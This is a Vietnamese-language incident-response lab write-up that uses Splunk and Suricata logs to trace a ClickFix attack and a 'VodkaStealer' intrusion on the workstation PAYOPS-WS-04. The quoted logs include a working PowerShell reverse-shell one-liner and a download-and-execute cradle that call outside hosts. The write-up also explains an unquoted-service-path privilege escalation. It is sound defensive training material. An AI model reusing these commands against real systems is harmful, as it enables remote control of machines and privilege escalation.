# ClickFix – VodkaStealer Lab

# Thông tin chung

## Tình huống

NextGen Financial Solutions' Security Operations Center flagged anomalous PowerShell activity on an employee workstation during routine monitoring. Initial triage traced the activity back to a legitimate external website that had been compromised with a ClickFix overlay, a fake CAPTCHA verification prompt that silently copies a malicious command to the visitor's clipboard and instructs them to paste it into the Windows Run dialog.

Before the incident response team could contain the threat, the attacker had already escalated privileges, moved laterally across the corporate network, and deployed a custom Infostealer dubbed "VodkaStealer" on multiple endpoints. Evidence suggests that sensitive data, including browser credentials, cryptocurrency wallet files, and internal documents, was collected, staged, and exfiltrated to an external server.

As the lead investigator, you have been provided with Splunk log data from all compromised hosts. Your mission is to reconstruct the full attack chain, identify all compromised systems and accounts, and determine the scope of the data breach.


## Danh sách host

| Host | IP |
|---|---|
| BCHAIN-WS-11 | 10.10.11.206 |
| COMP-FS-01 | 10.10.11.81 |
| DC01 | 10.10.11.79 |
| PAYOPS-WS-04 | 10.10.11.252 |

**Domain:** `NextGen.local`

## Môi trường lab và log

Lab cho log window và suricata.

### Truy vấn tìm IP

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=22 QueryName IN (*BCHAIN-WS-11*, *COMP-FS-01*, *DC01*, *PAYOPS-WS-04*)
| table _time QueryName QueryResults
```

# Điều tra

## Host 1: PAYOPS-WS-04 (10.10.11.252)

### 1.0. Initial Access

Theo mô tả tình huống, attacker sử dụng kỹ thuật ClickFix để lừa người dùng thực thi một lệnh powershell thông qua hộp thoại Run (Win + R). Vì vậy, trước tiên ta sẽ tìm kiếm các sự kiện sysmon event id 1 trên hai workstation là BCHAIN-WS-11 và PAYOPS-WS-04, tập trung vào những process powershell có parent process là explorer.exe.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host IN ("BCHAIN-WS-11", "PAYOPS-WS-04") EventCode=1 parent_process_path=*explorer* CommandLine=*powershell*
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```



Vào 2026-04-20 23:26:21, trên PAYOPS-WS-04, sysmon event id 1 ghi nhận process powershell.exe (pid = 5580) được khởi chạy dưới danh tính n.hesham với command line đáng ngờ. Lệnh này sử dụng powershell để tải 1 script từ url http://3.122.229.6/payload.ps1 và thực thi trực tiếp nội dung tải về trong memory thay vì lưu script thành một tệp trên ổ đĩa. Ngoài ra, attacker sử dụng cờ -w hidden để ẩn cửa sổ powershell và -nop để bỏ qua việc nạp powershell profile.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" EventCode=13 TargetObject=*RunMRU*
| table _time user process_exec process_id TargetObject registry_value_name RuleName
| sort _time
```



RunMRU là registry key được Windows sử dụng để lưu lịch sử các lệnh người dùng nhập vào hộp thoại Run (Win + R). Vào 2026-04-20 23:26:21, sysmon event id 13 ghi nhận một registry value mới chứa chính lệnh powershell độc hại quan sát được trước đó. Kết hợp với sự kiện khởi chạy powershell.exe từ explorer.exe cùng thời điểm, ta có thể xác nhận lệnh đã được thực thi thông qua hộp thoại Run. Chuỗi hành vi này phù hợp với kỹ thuật ClickFix được mô tả trong scenario. Process tương ứng chạy dưới danh tính n.hesham, với logon id = 0x12d3c4a. Khoảng 27 phút sau, vào 2026-04-20 23:53:49, ghi nhận thêm một lần thực thi câu lệnh powershell tương tự thông qua hộp thoại Run, nhưng lần này thuộc phiên đăng nhập có logon id = 0x1cacaf.

```spl
host="eve.json" earliest="04/20/2026:23:00:00" latest="04/20/2026:23:50:00" src_ip="10.10.11.252" event_type=http
| table _time src_ip src_port dest_ip dest_port http.http_method http.hostname http.http_refer http.url http.status http.length http.http_content_type http.http_user_agent flow_id
| sort _time
```


Vào 2026-04-20 23:26:07.815, suricata ghi nhận một HTTP GET request từ PAYOPS-WS-04 (`10.10.11.252`) tới `http://3.122.229.6/captcha.html`, với HTTP status code 200 (OK), cho thấy server đã phản hồi thành công yêu cầu truy cập. Đáng chú ý, request này xuất hiện khoảng 13 giây trước khi powershell độc hại được khởi chạy thông qua hộp thoại Run (Win + R) lúc 23:26:21. Sự tương quan về thời gian, kết hợp với tên đường dẫn `/captcha.html` và việc script `payload.ps1` sau đó được tải từ cùng IP, cho thấy đây nhiều khả năng là trang chứa fake CAPTCHA được attacker sử dụng để lừa người dùng thực thi lệnh powershell độc hại.


### 1.1. Thông tin tài khoản n.hesham

```spl
index=main source=WinEventLog:Security host="PAYOPS-WS-04" EventCode IN (4624, 4672, 4627) (0x12d3c4a OR 0x1cacaf)
```

Không ghi nhận thông tin liên quan đến phiên logon của user n.hesham trong log

```spl
index=main source=WinEventLog:Security host="PAYOPS-WS-04" EventCode=4627 TargetUserName="n.hesham"
| table _time TargetUserName TargetLogonId TargetUserSid GroupMembership
```





Tuy nhiên, ghi nhận event id 4627 cung cấp thông tin về các nhóm bảo mật được ghi nhận trong phiên đăng nhập của n.hesham. Trong danh sách group membership quan sát được, không có các nhóm quản trị như là Administrators hoặc Domain Admins. Vì vậy, nhiều khả năng n.hesham chỉ là Domain User thông thường, không được gán quyền quản trị

### 1.2. Process tree ban đầu

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" EventCode=1 earliest="04/20/2026:23:25:00" latest="04/21/2026:00:00:00"
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```

Các process đáng ngờ sau đó đều chạy dưới danh tính n.hesham với integrity level = medium

```
                                                              [9164] C:\Windows\explorer.exe
2026-04-20 23:25:59  n.hesham         Medium  0x12d3c4a   ├── [8540] "C:\Program Files\Google\Chrome\Application\chrome.exe"
2026-04-20 23:26:21  n.hesham         Medium  0x12d3c4a   └── [5580] "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://3.122.229.6/payload.ps1')"
2026-04-20 23:29:30  n.hesham         Medium  0x12d3c4a       ├── [12664] C:\Windows\system32\cmd.exe /C whoami
2026-04-20 23:29:30  n.hesham         Medium  0x12d3c4a       │   └── [13392] whoami
2026-04-20 23:31:14  n.hesham         Medium  0x12d3c4a       ├── [8360] C:\Windows\system32\cmd.exe /C powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('165.245.213.184',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII.GetBytes($r)),0,$r.Length)};$c.Close()"
2026-04-20 23:31:14  n.hesham         Medium  0x12d3c4a       │   └── [14032] powershell  -nop -c "$c=New-Object Net.Sockets.TCPClient('165.245.213.184',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII.GetBytes($r)),0,$r.Length)};$c.Close()"
2026-04-20 23:31:30  n.hesham         Medium  0x12d3c4a       ├── [384] C:\Windows\system32\cmd.exe /C whoami /all
2026-04-20 23:31:30  n.hesham         Medium  0x12d3c4a       │   └── [12460] whoami  /all
2026-04-20 23:31:41  n.hesham         Medium  0x12d3c4a       ├── [8396] C:\Windows\system32\cmd.exe /C systeminfo
2026-04-20 23:31:41  n.hesham         Medium  0x12d3c4a       │   └── [9372] systeminfo
2026-04-20 23:31:55  n.hesham         Medium  0x12d3c4a       ├── [3020] C:\Windows\system32\cmd.exe /C ipconfig /all
2026-04-20 23:31:55  n.hesham         Medium  0x12d3c4a       │   └── [10280] ipconfig  /all
2026-04-20 23:32:06  n.hesham         Medium  0x12d3c4a       ├── [10824] C:\Windows\system32\cmd.exe /C net user /domain
2026-04-20 23:32:06  n.hesham         Medium  0x12d3c4a       │   └── [8168] net  user /domain
2026-04-20 23:32:06  n.hesham         Medium  0x12d3c4a       │       └── [9864] C:\Windows\system32\net1  user /domain
2026-04-20 23:32:34  n.hesham         Medium  0x12d3c4a       ├── [7924] C:\Windows\system32\cmd.exe /C net group "Domain Admins" /domain
2026-04-20 23:32:34  n.hesham         Medium  0x12d3c4a       │   └── [8904] net  group "Domain Admins" /domain
2026-04-20 23:32:34  n.hesham         Medium  0x12d3c4a       │       └── [8832] C:\Windows\system32\net1  group "Domain Admins" /domain
2026-04-20 23:32:50  n.hesham         Medium  0x12d3c4a       ├── [7792] C:\Windows\system32\cmd.exe /C net group "Domain Computers" /domain
2026-04-20 23:32:50  n.hesham         Medium  0x12d3c4a       │   └── [11308] net  group "Domain Computers" /domain
2026-04-20 23:32:50  n.hesham         Medium  0x12d3c4a       │       └── [7668] C:\Windows\system32\net1  group "Domain Computers" /domain
2026-04-20 23:33:18  n.hesham         Medium  0x12d3c4a       ├── [6276] C:\Windows\system32\cmd.exe /C wmic service get name,pathname,startmode | findstr /i "DataSync"
2026-04-20 23:33:18  n.hesham         Medium  0x12d3c4a       │   └── [12708] findstr  /i "DataSync"
2026-04-20 23:33:42  n.hesham         Medium  0x12d3c4a       ├── [8248] C:\Windows\system32\cmd.exe /C wmic service get name,pathname,startmode | findstr /i "DataSync"
2026-04-20 23:33:42  n.hesham         Medium  0x12d3c4a       │   └── [9628] findstr  /i "DataSync"
2026-04-20 23:36:53  n.hesham         Medium  0x12d3c4a       ├── [14056] C:\Windows\system32\cmd.exe /C sc stop DataSyncPro
2026-04-20 23:36:53  n.hesham         Medium  0x12d3c4a       │   └── [14096] sc  stop DataSyncPro
2026-04-20 23:40:18  n.hesham         Medium  0x12d3c4a       ├── [13748] C:\Windows\system32\cmd.exe /C move "C:\Program Files\DataSync Pro\Service.exe" "C:\Program Files\DataSync Pro\Sync.exe"
2026-04-20 23:41:23  n.hesham         Medium  0x12d3c4a       └── [8988] C:\Windows\system32\cmd.exe /C shutdown /r /t 5 /f
```

### 1.3. Process powershell (pid = 5580) — khởi chạy lúc 2026-04-20 23:26:21

```spl
index=main host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" latest="04/21/2026:00:00:00" EventCode=4689
| where ProcessId=lower(tostring(5580, "hex"))
| table _time src_user Logon_ID ProcessId process
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" latest="04/21/2026:23:42:00"  process_id=5580 OR parent_process_id=5580 OR SourceProcessId=5580
| stats count by EventCode
```



Process powershell (pid = 5580) kết thúc vào 2026-04-20 23:41:30, khoảng 15 phút kể từ khi bắt đầu thực thi



Thống kê các sysmon event liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" latest="04/21/2026:23:42:00" process_id=5580 OR parent_process_id=5580 OR SourceProcessId=5580 EventCode=11
| table _time TargetFilename
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" latest="04/21/2026:23:42:00" process_id=5580 OR parent_process_id=5580 OR SourceProcessId=5580 EventCode=29
| table _time TargetFilename Hashes
```





Lúc 2026-04-20 23:36:15, drop thành công payload Service.exe vào thư mục “C:\Program Files\DataSync Pro\”

Hash của Service.exe: 
+ SHA1=4C34F129ED36BD5ED21AB69683B8F5B348E8D504
+ MD5=6152E490837B7D32BDE1AE8C6152B117
+ SHA256=4A6EA38CDBBC99A51A06B1305CC833F8F93334EEE1E65CCC054E764BE4A1887A
+ IMPHASH=17B461A082950FC6332228572138B80C

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" latest="04/21/2026:23:42:00" process_id=5580 EventCode=3
| bin _time span=1m
| stats count by _time DestinationIp DestinationPort
```



Process powershell.exe (pid = 5580) khởi tạo nhiều kết nối tới 100.52.249.75:443, đồng thời có một kết nối tới 3.122.229.6:80, trùng với địa chỉ server lưu trữ script payload.ps1. Việc sử dụng các cổng 80 và 443, vốn dành cho 2 giao thức HTTP và HTTPS, có thể giúp lưu lượng độc hại hòa lẫn vào hoạt động mạng thông thường để tránh né detection. 

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" latest="04/21/2026:23:42:00" parent_process_id=5580 EventCode=1
| table _time CommandLine
| sort _time
```



#### Spawn ra các process con thực thi lệnh
| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-20 23:29:30 | `cmd.exe /C whoami` | Kiểm tra user hiện tại |
| 2026-04-20 23:31:14 | `cmd.exe /C powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('165.245.213.184',4444);$s=$c.GetStream();[byte[]]$b=0..65535\|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1\|Out-String);$s.Write(([text.encoding]::ASCII.GetBytes($r)),0,$r.Length)};$c.Close()"` | Thực hiện 1 reverse TCP shell tới 165.245.213.184:4444, nhận và chạy lệnh ngay trong memory thông qua iex |
| 2026-04-20 23:31:30 | `cmd.exe /C whoami /all` | Kiểm tra SID, group và privilege của user hiện tại |
| 2026-04-20 23:31:41 | `cmd.exe /C systeminfo` | Kiểm tra cấu hình máy |
| 2026-04-20 23:31:55 | `cmd.exe /C ipconfig /all` | Kiểm tra cấu hình mạng |
| 2026-04-20 23:32:06 | `cmd.exe /C net user /domain` | Liệt kê các domain users |
| 2026-04-20 23:32:34 | `cmd.exe /C net group "Domain Admins" /domain` | Liệt kê thành viên thuộc nhóm Domain Admins |
| 2026-04-20 23:32:50 | `cmd.exe /C net group "Domain Computers" /domain` | Liệt kê các máy tính thuộc Domain |
| 2026-04-20 23:33:18 | `cmd.exe /C wmic service get name,pathname,startmode \| findstr /i "DataSync"` | Dùng wmic để liệt kê tên service, đường dẫn tệp thực thi và chế độ khởi động (StartMode), sau đó lọc những kết quả chứa chuỗi DataSync |
| 2026-04-20 23:33:42 | `cmd.exe /C wmic service get name,pathname,startmode \| findstr /i "DataSync"` | Thực hiện lại lệnh trên 1 lần nữa |
| 2026-04-20 23:36:53 | `cmd.exe /C sc stop DataSyncPro` | Ngừng service DataSyncPro |
| 2026-04-20 23:40:18 | `cmd.exe /C move "C:\Program Files\DataSync Pro\Service.exe" "C:\Program Files\DataSync Pro\Sync.exe"` | Thay tên payload Service.exe đã drop vào lúc 2026-04-20 23:36:15 (sau khi xác định service tồn tại) thành Sync.exe |

Chuỗi hành động trên cho thấy attacker đang khai thác lỗi cấu hình unquoted service path của service DataSyncPro. Cụ thể, attacker đặt payload Sync.exe tại một vị trí có thể được windows ưu tiên tìm kiếm khi khởi chạy service. Nếu service DataSyncPro được thiết lập chạy dưới danh tính SYSTEM và windows thực thi payload này, attacker có thể leo thang đặc quyền lên SYSTEM.

#### Khai thác lỗ hổng unquoted service path của service DataSyncPro

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" CommandLine="*C:\\Program Files\\DataSync Pro\\*" EventCode=1
| table _time host user IntegrityLevel parent_process_id parent_process_path process_id CommandLine
| sort _time
```

```spl
index=main source="WinEventLog:System" host="PAYOPS-WS-04" "*C:\\Program Files\\DataSync Pro\\*" EventCode=7045
| table _time service_name ServiceType StartType AccountName ImagePath
```






DataSyncPro là một service được cấu hình tự động khởi chạy dưới danh tính SYSTEM khi hệ thống boot. Executable hợp lệ của service nằm tại: C:\Program Files\DataSync Pro\Sync Service\datasync-svc.exe

Đường dẫn thực thi của một Windows service được lưu trong registry value ImagePath, thuộc key HKLM\SYSTEM\CurrentControlSet\Services\\<ServiceName\>.

Trong trường hợp này, ImagePath chứa một đường dẫn có khoảng trắng nhưng không được bao quanh bởi dấu ngoặc kép ("). Đây là lỗi cấu hình unquoted service path, khiến Windows có thể phân giải sai đường dẫn tệp thực thi đích khi Service Control Manager khởi chạy service.

Cụ thể, với đường dẫn trên, Windows có thể lần lượt thử các executable sau:
- C:\Program.exe
- C:\Program Files\DataSync.exe
- C:\Program Files\DataSync Pro\Sync.exe
- C:\Program Files\DataSync Pro\Sync Service\datasync-svc.exe


Windows sẽ thực thi tệp thực thi đầu tiên tìm thấy theo thứ tự phân giải đường dẫn. Vì vậy, nếu attacker có quyền ghi tệp Sync.exe vào C:\Program Files\DataSync Pro\, Windows có thể thực thi payload này trước khi tìm đến tệp thực thi hợp lệ datasync-svc.exe.

Attacker đã đặt payload Sync.exe tại vị trí trên, sau đó yêu cầu khởi động lại hệ thống để kích hoạt DataSyncPro. Do service được cấu hình chạy dưới tài khoản SYSTEM, việc khai thác thành công cho phép payload được thực thi với đặc quyền SYSTEM.

- **2026-04-20 23:41:23** — `cmd.exe /C shutdown /r /t 5 /f`

  - Khởi động lại máy để kích hoạt lại service DataSyncPro, từ đó khiến windows thực thi payload Sync.exe

```spl
index=main host="PAYOPS-WS-04" earliest="04/20/2026:23:26:00" latest="04/20/2026:23:42:00" EventCode=1074
| table _time param1 param2 param3 param4 param5 param7
```



Event id 1074 ghi nhận yêu cầu khởi động lại host PAYOPS-WS-04 được khởi tạo thông qua shutdown.exe vào 2026-04-20 23:41:23. Sự kiện này phù hợp với lệnh reboot được quan sát trong log process trước đó.

### 1.4. Reverse shell powershell (pid = 14032) — khởi chạy lúc 2026-04-20 23:31:14

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:31:14" process_id=14032 OR parent_process_id=14032 OR SourceProcessId=14032
| stats count by EventCode
```



```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:31:14" process_id=14032 EventCode=3
| table _time DestinationIp DestinationPort
```



Đối với script reverse shell này, ghi nhận 1 sự kiện đáng chú ý đó là 1 kết nối tới 165.245.213.184:4444 vào 2026-04-20 23:31:19

```spl
host="eve.json" 165.245.213.184
| table _time src_ip src_port dest_ip dest_port flow.bytes_toclient flow.bytes_toserver flow.pkts_toclient flow.pkts_toserver tcp.state proto flow.alerted flow.start flow.end
| sort _time
```



Flow tcp mà suricata ghi nhận lúc 2026-04-20 23:41:22.648 cho thấy victim (10.10.11.252) sau khi thiết lập 1 TCP handshake (SYN-SYN_ACK-ACK tương ứng với tổng 3 gói tin ghi nhận được) tới server c2 165.245.213.184:4444, trong log chưa ghi nhận server c2 gửi bất cứ lệnh nào. Ngoài ra cũng ghi nhận kết nối tới IP đáng ngờ này trên host 10.10.11.206 (BCHAIN-WS-11), số lượng bytes gửi tới server là vào khoảng 26MB, cho thấy dấu hiệu lateral movement và exfiltration trên host này

### 1.5. Hoạt động sau lần khởi động lại thứ nhất

Process:

```
                                                              [6280] C:\Windows\explorer.exe
2026-04-20 23:53:11  n.hesham         Medium  0x1cacaf    ├── [6276] "C:\Program Files\Google\Chrome\Application\chrome.exe"
2026-04-20 23:53:49  n.hesham         Medium  0x1cacaf    └── [628] "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://3.122.229.6/payload.ps1')"
                                                               -> Tái kích hoạt stager tải payload từ C2 (Persistence Triggered)
2026-04-20 23:55:57  n.hesham         Medium  0x1cacaf        ├── [932] C:\Windows\system32\cmd.exe /C powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('165.245.213.184',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII.GetBytes($r)),0,$r.Length)};$c.Close()"
2026-04-20 23:55:57  n.hesham         Medium  0x1cacaf        │   └── [8656] powershell  -nop -c "$c=New-Object Net.Sockets.TCPClient('165.245.213.184',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII.GetBytes($r)),0,$r.Length)};$c.Close()"
                                                              │        -> Tái thiết lập kết nối Reverse TCP Shell tới C2: 165.245.213.184:4444
2026-04-20 23:56:23  n.hesham         Medium  0x1cacaf        ├── [7020] C:\Windows\system32\cmd.exe /C whoami /all
2026-04-20 23:56:23  n.hesham         Medium  0x1cacaf        │   └── [1036] whoami  /all
2026-04-20 23:56:38  n.hesham         Medium  0x1cacaf        ├── [7228] C:\Windows\system32\cmd.exe /C systeminfo
2026-04-20 23:56:38  n.hesham         Medium  0x1cacaf        │   └── [7032] systeminfo
2026-04-20 23:56:52  n.hesham         Medium  0x1cacaf        ├── [3016] C:\Windows\system32\cmd.exe /C ipconfig /all
2026-04-20 23:56:52  n.hesham         Medium  0x1cacaf        │   └── [2076] ipconfig  /all
2026-04-20 23:57:05  n.hesham         Medium  0x1cacaf        ├── [8500] C:\Windows\system32\cmd.exe /C net user /domain
2026-04-20 23:57:05  n.hesham         Medium  0x1cacaf        │   └── [6832] net  user /domain
